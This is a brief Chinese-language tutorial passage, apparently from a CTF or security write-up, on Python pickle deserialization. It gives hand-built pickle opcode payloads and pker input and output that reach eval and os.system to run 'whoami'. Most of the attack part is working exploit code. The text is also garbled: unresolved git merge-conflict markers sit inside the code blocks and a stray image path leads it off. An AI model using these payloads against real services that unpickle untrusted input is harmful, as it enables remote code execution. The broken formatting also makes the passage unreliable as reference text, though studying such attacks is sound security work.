 ```plain
```

出于需要使用 opcode 表示我们的命令的限制，我们最终构造出的 payload 是 `builtins.getattr(builtins.getattr(builtins.dict,'get')(builtins.golbals(),'builtins'),'eval')(command)`

写成 opcode 就是这样的

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
geteval = b'''cbuiltins
getattr
(cbuiltins
getattr
(cbuiltins
dict
S'get'
tR(cbuiltins
globals
)RS'__builtins__'
tRS'eval'
tR(S'__import__("os").system("whoami")'
tR.
'''
```

如果用 pker 生成 opcode 的话就是这样的

payload"`getattr(builtins.dict,"get")(sys.modules,"os").system("whoami")`

给 pker 的输入

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
getattr=GLOBAL('builtins','getattr')
dict=GLOBAL('builtins','dict')
get=getattr(dict,'get')
mod=GLOBAL('sys','modules')
os=get(mod,'os')
system=getattr(os,'system')
system("whoami")
return
```

用 pker 写成 opcode

<<<<<<< HEAD
```plain
opcode=b"cbuiltins\ngetattr\np0\n0cbuiltins\ndict\np1\n0g0\n(g1\nS'get'\ntRp2\n0csys\nmodules\np3\n0g2\n(g3\nS'os'\ntRp4\n0g0\n(g4\nS'system'\ntRp5\n0g5\n(S'whoami'\ntR."
```
